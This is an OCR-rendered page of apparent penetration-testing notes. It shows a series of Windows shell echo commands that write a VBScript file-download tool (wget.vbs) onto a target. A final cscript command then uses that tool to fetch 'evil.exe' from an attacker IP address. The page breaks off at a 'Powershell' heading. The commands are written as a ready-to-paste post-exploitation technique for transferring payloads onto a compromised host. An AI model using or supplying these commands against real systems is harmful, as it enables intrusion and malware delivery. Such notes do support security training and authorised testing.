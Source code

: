 wget-vbs script echo trick again, copy paste the commands in the shell

echo strUrl = WScript.Arguments.Item(0) \&gt; wget.vbs

echo StrFile = WScript.Arguments.Item(1) \&gt;\&gt; wget.vbs

echo Const HTTPREQUEST\_PROXYSETTING\_DEFAULT = 0 \&gt;\&gt; wget.vbs

echo Const HTTPREQUEST\_PROXYSETTING\_PRECONFIG = 0 \&gt;\&gt; wget.vbs

echo Const HTTPREQUEST\_PROXYSETTING\_DIRECT = 1 \&gt;\&gt; wget.vbs

echo Const HTTPREQUEST\_PROXYSETTING\_PROXY = 2 \&gt;\&gt; wget.vbs

echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts \&gt;\&gt; wget.vbs

echo Err.Clear \&gt;\&gt; wget.vbs

echo Set http = Nothing \&gt;\&gt; wget.vbs

echo Set http = [CreateObject](http://www.google.com/search?q=CREATEOBJECT+site:msdn.microsoft.com)(&quot;WinHttp.WinHttpRequest.5.1&quot;) \&gt;\&gt; wget.vbs

echo If http Is Nothing Then Set http = [CreateObject](http://www.google.com/search?q=CREATEOBJECT+site:msdn.microsoft.com)(&quot;WinHttp.WinHttpRequest&quot;) \&gt;\&gt; wget.vbs

echo If http Is Nothing Then Set http = [CreateObject](http://www.google.com/search?q=CREATEOBJECT+site:msdn.microsoft.com)(&quot;MSXML2.ServerXMLHTTP&quot;) \&gt;\&gt; wget.vbs

echo If http Is Nothing Then Set http = [CreateObject](http://www.google.com/search?q=CREATEOBJECT+site:msdn.microsoft.com)(&quot;Microsoft.XMLHTTP&quot;) \&gt;\&gt; wget.vbs

echo http.Open &quot;GET&quot;,strURL,False \&gt;\&gt; wget.vbs

echo http.Send \&gt;\&gt; wget.vbs

echo varByteArray = http.ResponseBody \&gt;\&gt; wget.vbs

echo Set http = Nothing \&gt;\&gt; wget.vbs

echo Set fs = [CreateObject](http://www.google.com/search?q=CREATEOBJECT+site:msdn.microsoft.com)(&quot;Scripting.FileSystemObject&quot;) \&gt;\&gt; wget.vbs

echo Set ts = fs.CreateTextFile(StrFile,True) \&gt;\&gt; wget.vbs

echo strData = &quot;&quot; \&gt;\&gt; wget.vbs

echo strBuffer = &quot;&quot; \&gt;\&gt; wget.vbs

echo For lngCounter = 0 to [UBound](http://www.google.com/search?q=UBOUND+site:msdn.microsoft.com)(varByteArray) \&gt;\&gt; wget.vbs

echo ts.Write [Chr](http://www.google.com/search?q=CHR+site:msdn.microsoft.com)(255 And [Ascb](http://www.google.com/search?q=ASCB+site:msdn.microsoft.com)([Midb](http://www.google.com/search?q=MIDB+site:msdn.microsoft.com)(varByteArray,lngCounter + 1,1))) \&gt;\&gt; wget.vbs

echo Next \&gt;\&gt; wget.vbs

echo ts.Close \&gt;\&gt; wget.vbs

cscript wget.vbs http://10.11.0.102/evil.exe test.txt

### **Powershell**
